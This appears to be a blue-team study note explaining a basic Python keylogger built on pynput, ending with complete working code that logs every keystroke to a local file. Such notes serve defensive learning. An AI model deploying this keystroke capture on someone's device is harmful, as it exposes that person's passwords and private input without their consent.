 ```yaml
---
layout: note
title: "Keylogger"
description: "records (logs) the keys struck on a keyboard"
tags: [security, python, logging, pynput]
date: 2025-07-14
---
```


# Basic Key-logger
- So this records the keys from the key-board, and it is used by hackers ot threat-actors to monitor the inputs done by the victim.
- It is very important for us as the *blue team* to know about this kind of an attack, to properly ensure the safety and privacy of the people.

# Program
- There is python library available `pynput`, which allows us to control and monitor input devices.
- So first things first <br>
```bash
    pip install pynput
```
- **Importing the modules**
```python
from pynput import keyboard
import datetime
import os
```
    - `keyboard` will allow us to monitor the keyboard events
    - `os` This is for file operations, basically it gives us access to the operating system.
- Now, we want to store all the keystrokes to a log-file
```python
def write_to_log(key):
    with open(LOG_FILE, "a") as f:
        f.write(key)
```
    - Our argument is the key
    - Our filename is LOG_FILE
    - Note, that we use `a` for appending to the file, and this means we are not replacing or overwriting, but we want to store all the key-strokes.
- **handling special keys**
```python
def clicking(key):
    try:
        write_to_log(key.char) # Normal keys
    except AttributeError:
        special_key = f"[{key}]" # Like `shift` etc
        write_to_log(special_key)
    except:
        write_to_log(f"[UNKNOWN]") # Any other exceptions
```
    - Here, we make use of "Exceptions" to handle errors correctly.

- **main function**
```python
def main():
    if not os.path.exists(LOG_FILE):
        open(LOG_FILE, "w").close()
    # --
    with open(LOG_FILE, "a") as f:
        f.write(f"\n** Session initiated {datetime.datetime.now()} **\n") 
    with keyboard.Listener(on_press=clicking) as listener: # Set up the listener
        listener.join()
    # --
if __name__ == "__main__":
    main()
```
    - The function will create a log file if it does not exist. Using the 'w'file operation which stands for *write*. 
    - Most importantly, setting the listener. Basically when the user starts clicking, the clicking() function is called
    - `listener.join()` keeps the program running.

# Complete Code
```python
from pynput import keyboard
import datetime
import os
# --
LOG_FILE = "keylog.txt"
def write_to_log(key):
    with open(LOG_FILE, "a") as f:
        f.write(key)
# --
def clicking(key):
    try:
        write_to_log(key.char)
    except AttributeError:
        special_key = f"[{key}]"
        write_to_log(special_key)
    except:
        write_to_log(f"[UNKNOWN]")
    # --
def main():
    if not os.path.exists(LOG_FILE): 
        open(LOG_FILE, "w").close()
    # --
    with open(LOG_FILE, "a") as f:
        f.write(f"\n** Session started at {datetime.datetime.now()} **\n")
    # --
    with keyboard.Listener(on_press=clicking) as listener:
        listener.join()
# --
if __name__ == "__main__":
    main()
```
- There is another functionality called "on_release", this allows us to specify which keys the user may use to stop the program. In this case You would have to kill the powershell, to stop it. But this demonstrate how hackers would not want to leave anything, but all the information they may need. 